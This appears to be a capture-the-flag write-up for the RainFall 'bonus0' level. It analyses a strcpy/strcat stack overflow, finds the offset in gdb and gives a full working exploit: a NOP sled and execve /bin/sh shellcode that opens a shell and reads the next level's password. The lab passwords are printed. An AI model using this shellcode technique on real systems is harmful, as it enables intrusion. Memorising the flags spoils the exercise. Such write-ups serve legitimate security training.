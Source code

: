# **Bonus0**

## **Analysis**

**In `main()`:**

```c
    char	str[0x40 - 0x16]; // 0x2a = 42

	pp( str );
	puts( str );
	return (0);
```

**In `pp()`**

```c
    // Allocate 2 string of 20 characters
    char    str1[20];
    char    str2[20];
    // Put the first 20 characters of stdin on them
    // Won't end by a '\0' if stdin's len greater than 20 characters
    p( str1, separator );
    p( str2, separator );

    // Copy content of str1 into dest
    // Plus str2 if str1 hasn't '\0'
    strcpy( dest, str1 );

    // end dest with " \0"
    len = strlen( dest );
    dest[len] = " ";
    dest[len + 1] = 0;
    
    // Concat dest with str2
    strcat( dest, str2 );
```

```c
    char    buffer[0x1000]; // 4096

    puts( prompt );

    // Read stdin into buffer
    read( 0, buffer, 0x1000 ); // 4096
    
    // replace first occurence of '\n' by '\0'
    ret = strchr( buffer, '\n' );
    *ret = 0;
    
    // copy the first 20 characters into dest
    strncpy( dest, buffer, 0x14 ); // 20
```
___

## **Exploit**

Lets determine the offset
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
0123456789abcdefghij
 -
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
0123456789abcdefghijAAAABBBBCCCCDDDDEEEE�� AAAABBBBCCCCDDDDEEEE��

Program received signal SIGSEGV, Segmentation fault.
0x44434343 in ?? ()

 ❯ python3 offset.py 43
8
 ❯ python3 offset.py 44
12
```

OFFSET: 9

We will put the shellcode in the 4096 character buffer,
Let get its adress
```
(gdb) b *p+81
Breakpoint 1 at 0x8048505
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
4242

Breakpoint 1, 0x08048505 in p ()
(gdb) x/4c $eax
0xbfffe680:     52 '4'  50 '2'  52 '4'  50 '2'
(gdb) c
Continuing.
 -
ABCD

Breakpoint 1, 0x08048505 in p ()
(gdb) x/4c $eax
0xbfffe680:     65 'A'  66 'B'  67 'C'  68 'D'
```

0xbfffe680 + 96(0x60) = 0xbfffe6e0

96 = 9 + 4 + 83

Solution:
 * (4096) skip first string
 * (09) offset
 * (04) adress of shellcode in buffer [0xbfffe6e0]
 * (83) offset until shellcode, 96 - 9 - 4 = 83
 * (45) shellcode

```
bonus0@RainFall:~$ python -c 'print "\x90" * 4095 + "\n" + "\x90" * 9 + "\xe0\xe6\xff\xbf" + "\x90" * 83 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"' > /tmp/bonus0 && cat /tmp/bonus0 - | ./bonus0
 -
 -
������������������������������������������� �����������������������
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

___

*Password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728*